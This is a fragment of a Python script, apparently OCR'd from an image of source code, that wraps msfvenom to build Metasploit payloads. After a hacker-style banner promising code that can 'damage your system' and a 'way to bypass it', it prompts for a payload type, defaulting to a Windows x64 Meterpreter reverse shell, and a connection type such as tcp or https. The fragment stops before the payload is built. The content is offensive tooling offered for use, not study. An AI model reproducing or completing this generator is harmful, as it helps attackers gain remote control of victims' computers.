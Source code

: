         /_____/____/|___/___(_)  /_/ /_/\__,_/_/ /_/_//____/_/     

                                                                   

       Just Only One Line Code can Damage Your System  --4|! Kh4N 

            I Can't do Everything But I Can Try ./ALL! K4HN

  (=*=*=*=*=*=*=*=*=*= This is The way to bypass it =*=*=*=*=*=*=*=*=) 

"""   

    for N, line in enumerate(x.split("\n")):

        sys.stdout.write("\x1b[1;%dm%s%s\n" % (random.choice(colors), line, clear))

        time.sleep(0.05)

now = datetime.datetime.now()

print('\n\033[92m                  STARTED AT: ' + str(now))

print_logo()

try:

   payloadtype = input(" [?] Enter Payload Type windows/x64/meterpreter_reverse : ")

   if payloadtype=="":

      payloadtype="windows/x64/meterpreter_reverse"

   print(" [*]  Using payload  [*] "+payloadtype)

   if "help" in payloadtype:

      print(" [%] Please Wait Opening Payload List [%] ")

      helper = 'msfvenom --list payloads'

      os.system(helper)

      payloadtype = input(" [?] Enter Payload Type windows/x64/meterpreter_reverse : ")

   if payloadtype=="":

      payloadtype="windows/x64/meterpreter_reverse"

      print(" [*]  Using payload  [*] "+payloadtype)

   if "help" in payloadtype:

      print(" [%] Please Wait Opening Payload List [%] ")

      helper = 'msfvenom --list payloads'

      os.system(helper)

   payload_type = input(" [?] Enter Payload TYPE [tcp,https,tcp_dns] : ")

   if payload_type=="":

      payload_type="tcp"

   

   print(" [*]  Using service  [*] "+payload_type)
